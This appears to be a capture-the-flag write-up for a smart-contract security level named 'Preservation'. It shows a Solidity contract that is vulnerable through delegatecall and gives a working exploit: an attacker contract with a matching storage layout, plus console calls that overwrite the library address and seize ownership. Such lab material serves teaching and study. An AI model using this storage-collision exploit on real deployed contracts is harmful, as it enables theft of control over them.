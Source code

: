 # Preservation

## Challenge Description

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

-   Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
-   Understanding what it means for `delegatecall` to be context-preserving.
-   Understanding how storage variables are stored and accessed.
-   Understanding how casting works between different data types.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint storedTime;

    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(
        address _timeZone1LibraryAddress,
        address _timeZone2LibraryAddress
    ) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    function setFirstTime(uint _timeStamp) public {
        timeZone1Library.delegatecall(
            abi.encodePacked(setTimeSignature, _timeStamp)
        );
    }

    function setSecondTime(uint _timeStamp) public {
        timeZone2Library.delegatecall(
            abi.encodePacked(setTimeSignature, _timeStamp)
        );
    }
}

contract LibraryContract {
    uint storedTime;

    function setTime(uint _time) public {
        storedTime = _time;
    }
}
```

## Challenge Solution Walkthrough

To exploit the contract and become the owner, we can take advantage of the delegate call mechanism and manipulate the memory layout. By executing specific functions, we can modify the contract's state and assign ourselves as the owner.

Here's how we can achieve this:

1. Deploy the following `PreservationSolution` contract, which has the same memory layout as the `Preservation` contract and includes a `setTime(uint256)` function that changes the owner:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract PreservationSolution {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256) public {
        owner = tx.origin;
    }
}
```

1. Obtain its address (let's assume it is `0xFd414A1E706dF6F30B8c7F7e1AB298C248cb6dDc`).
2. Call the `setFirstTime()` function on the `Preservation` contract, passing the address of the `PreservationSolution` contract as the input:

```javascript
> await contract.setFirstTime("0xFd414A1E706dF6F30B8c7F7e1AB298C248cb6dDc")
```

This step modifies the memory layout of the `Preservation` contract, assigning the address of `timeZone1Library` to the input address.

4. Call the `setFirstTime()` function on the `Preservation` contract again, passing `"0"` as the input. Since the address of `timeZone1Library` has been changed to our deployed `PreservationSolution` contract, this function will execute the `setTime(uint256)` function of the `PreservationSolution` contract, which changes the owner to `tx.origin` (our address):

```javascript
> await contract.setFirstTime("0")
```

After executing this step, we will become the owner of the `Preservation` contract.

5. To validate the result, execute the following code:

```javascript
> await contract.owner() == player
< true
```

The output should indicate that we are now the owner of the contract.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.
